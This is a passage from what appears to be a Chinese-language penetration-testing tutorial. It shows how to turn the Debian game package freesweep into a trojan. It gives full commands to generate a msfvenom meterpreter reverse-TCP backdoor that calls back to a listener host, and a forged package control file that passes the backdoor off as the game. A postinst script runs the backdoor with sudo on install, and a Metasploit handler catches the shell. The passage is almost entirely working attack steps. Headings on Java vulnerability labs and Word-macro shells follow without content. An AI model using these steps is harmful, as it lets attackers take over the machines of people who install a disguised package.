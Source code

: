 ### 4. 制作恶意 deb 软件包进行渗透

制作恶意软件包使用 --download-only 方式下载软件包，不进行安装，eg: 安装 frteesweep

```shell
apt --download-only install freesweep  # 只下载不安装，下载的位置在 /var/cache/apt/archives
dpkg -x freesweep_1.0.2-1_amd64.deb free  # 解压 deb 软件包

msfvenom 	-a x64 	--platform linux  -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=4444 -b "\x00"  -i 10  -f elf  -o /root/free/usr/games/freesweep_sources # 生成后门程序

# 创建软件包信息目录
	mkdir free/DEBIAN && cd free/DEBIAN  # 创建目录
	vim /root/free/DEBIAN/control  # 创建信息文件
	# 信息内容：
	Package: freeweep
    Version: 1.0.1-1
    Section: Games and Amusement
    Priority: optionsal
    Architecture: amd64
    Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
    Description: a text-based minesweeper
     Freesweep is an implementation of the popular minesweeper game,where one tries to find all the mines without igniting
     any,based on hints given by the computer. Unlike most implementations of this game,Freesweep workd in any visual text
     display - in Linux console,in an xterm,and in most text-based terminals currently in use.
     
# 安装后脚本文件，来加载后门
	vim /root/free/DEBIAN/postinst 
	# 信息内容：
        #!/bin/bash
        sudo chmod 2755 /usr/games/freesweep_sources
        sudo /usr/games/freesweep_sources &
	# 设置权限
	chmod 755 /root/free/DEBIAN/postinst 
	
# 重新生成软件包
	dpkg-deb --build /root/free # 制作 deb 软件包
	
# 执行监听
	use exploit/multi/handler
	set payload linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.18.143
# 安装 deb  文件：
	dpkg -i free.deb
# 成功
```

### 5. 基于 JAVA 环境的漏洞环境

### 6. 利用宏感染 word 文档获取 shell
